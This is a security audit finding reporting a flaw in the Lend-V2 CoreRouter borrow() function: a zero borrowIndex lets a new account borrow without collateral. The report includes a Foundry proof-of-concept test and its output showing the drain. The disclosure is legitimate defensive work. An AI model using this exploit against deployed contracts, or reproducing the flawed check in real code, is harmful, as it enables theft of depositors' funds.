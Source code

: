 Jolly Alabaster Manatee

High

# An attacker can drain protocol funds due to lack of proper collateralization check.

### Summary

The borrow() function in CoreRouter.sol does a collateralization check but due to a flawed piece of code the whole thing can be bypassed and an attacker can steal huge funds without supplying a single penny of collateral.

### Root Cause

LOC: https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L152-161

In `CoreRouter.sol#152-161` we have this snippet of code:

```solidity
(uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

 LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);

uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;

require(collateral >= borrowAmount, "Insufficient collateral");
```

The core issue here is that when a new user(no previous borrows) is interacting with the protocol their ```currentBorrow``` is going to be zero and thus the ```borrowIndex```.

And from the snippet we can see that this sets ```borrowAmount``` to be 0 which creates an exploit scenario. The ```collateral``` is also is going to be zero since there is no previous deposit, which completely passes the require statement check.

```collateral == borrowAmount = 0``` 

(Even if the account has collateral it doesn't matter because ```collateral >= 0``` which will be true always)

The next lines ```CoreRouter.sol#167-170```

```solidity
require(LErc20Interface(_lToken).borrow(_amount) == 0, "Borrow failed");
 
// Transfer borrowed tokens to the user
IERC20(_token).transfer(msg.sender, _amount);

```

So an attacker chooses the maximum amount that can be borrowed and steal assets from the protocol which is made up of  funds of users.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. An attacker with an account without any previous borrows interacts with the borrow() function.
2. The attacker passes the maximum amount that can be borrowed to the borrow function.
3. The vulnerable borrow function transfers the particular amount to the attacker.

### Impact

Funds from the protocol can be drained.

### PoC

To https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/test/TestBorrowing.t.sol add the below code.

In TestBorrowing contract: 

```solidity
address alice = address(234234234);
address attacker = address(42);
```

To the setUp() function:

```solidity
address token = supportedTokens[0];
ERC20Mock(token).mint(alice, 100e18);
```

Create a new test named:

```solidity
function test_my_attack() public {
      vm.startPrank(alice); // Here a normal user alice supplies assets worth 4e18.
      address token = supportedTokens[0];
      IERC20(token).approve(address(coreRouter), type(uint).max);

      coreRouter.supply(1e18, token);
      coreRouter.supply(1e18, token);
      coreRouter.supply(1e18, token);
      coreRouter.supply(1e18, token);

      vm.startPrank(attacker);

      console.log("The token balance of attacker initially: ", IERC20(token).balanceOf(attacker));

      coreRouter.borrow(3e18, token); // An attacker with zero collateral borrows a huge amount.

      console.log("The token balance of attacker now: ", IERC20(token).balanceOf(attacker));
    }
```

Which outputs:

```bash
[PASS] test_my_attack() (gas: 937129)
Logs:
  The token balance of attacker initially:  0
  The token balance of attacker now:  3000000000000000000
```

Which shows the successful impact.

### Mitigation

The borrow function should also account for this particular case.